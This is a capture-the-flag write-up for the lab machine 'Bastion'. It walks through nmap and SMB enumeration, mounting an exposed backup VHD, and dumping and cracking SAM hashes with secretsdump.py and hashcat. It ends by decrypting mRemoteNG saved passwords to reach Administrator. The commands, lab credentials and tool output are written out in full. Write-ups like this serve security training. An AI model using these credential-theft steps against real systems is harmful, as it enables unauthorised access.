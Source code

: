 # Bastion
> Silver Garcia | 18/04/2024

## Enumeration
Nmap
```bash
└─$ sudo nmap -T4 -A -p- 10.10.10.134                    
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-20 21:35 EDT
Nmap scan report for 10.10.10.134
Host is up (0.055s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/20%OT=22%CT=1%CU=41323%PV=Y%DS=2%DC=T%G=Y%TM=6624
OS:6DC8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%
OS:TS=A)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5
OS:=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=
OS:2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF
OS:=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%
OS:RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W
OS:=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
OS:FI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -39m59s, deviation: 1h09m13s, median: -2s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-21T03:37:05+02:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-21T01:37:01
|_  start_date: 2024-04-21T00:44:59

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   54.92 ms 10.10.14.1
2   55.03 ms 10.10.10.134
```

List shares:
```
└──╼ [★]$ smbclient -L 10.10.10.134
Password for [WORKGROUP\thebionicarm]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Files on Backups share:
```
smb: \> ls
  .                                   D        0  Tue Apr 16 11:02:11 2019
  ..                                  D        0  Tue Apr 16 11:02:11 2019
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019
``` 


note.txt
```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

Mounted VHD file on the remote share using guestmount. For detailed steps: https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

Got l4mpje credentials following next steps:
1. After getting access to the system files, extracted SAM and SYSTEM hives.
2. Used `secretsdump.py` to dump SAM databse:
```bash
└──╼ [★]$ secretsdump.py -sam SAM -system SYSTEM LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::	
```
3. Used hashcat to crack L4mpje password
```bash
hashcat -a 0 -m 1000 l4mpje.txt /usr/share/wordlists/rockyou.txt 
```

Password:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```

## Getting access

Got access through SSH using `l4mpje:bureaulampje` credentials.

## Privilege Escalation

Found `mRemoteNg` installed on `Progam Files (x86)` folder.
Realized that mRemoteNg config file password can be decrypted.
Followed next steps to get password:
1. Get `confCons.xml` file located in `C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml`
2. Download `mremoteng_decrypt.py` file
3. Decrypt passwords with script:
```
python3 mremoteng_decrypt.py confCons.xml 
Name: DC
Hostname: 127.0.0.1
Username: Administrator
Password: thXLHM96BeKL0ER2

Name: L4mpje-PC
Hostname: 192.168.1.75
Username: L4mpje
Password: bureaulampje
```

Could login as administrator through SSH using found credentials.
```
Username: Administrator
Password: thXLHM96BeKL0ER2
```